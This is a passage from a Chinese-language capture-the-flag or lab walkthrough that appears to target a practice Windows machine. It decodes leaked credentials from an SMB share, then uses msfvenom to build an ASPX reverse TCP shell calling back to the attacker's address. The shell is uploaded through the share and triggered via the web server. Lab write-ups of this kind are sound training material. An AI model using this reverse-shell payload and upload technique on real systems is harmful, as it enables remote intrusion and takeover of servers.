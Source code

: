 get一下password.txt

[![](assets/1706771526-e10395637de22569c913c7622216af19.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223332-607d44ee-beb3-1.png)

[![](assets/1706771526-6022a6f5fa6ec1b502d0a941dd3acd68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223335-62ae91be-beb3-1.png)

base解密一下

```plain
Bob - !P@$$W0rD!123
```

```plain
Bill - Juw4nnaM4n420696969!$$$
```

ssh远程连接一下，这里傻逼了，忘了没开20端口，应该不能这么打，这是windows的渗透。。。。

应该从刚刚的SMB共享入手，SMB和linux下的ftp差不多，ftp怎么打SMB其实也差不多

利用**msfvenom**生成一个弹windows的shell

```plain
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.37.127 LPORT=3333 -f aspx -o shell1.aspx
```

之后将我们生成的shell.aspx put到SMB共享目录

之后我们访问一下

```plain
http://10.10.220.5:49663/nt4wrksv/shell1.aspx
```

[![](assets/1706771526-edb1b2d2b53bcac3797ccf2c33989289.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223341-660c3b54-beb3-1.png)
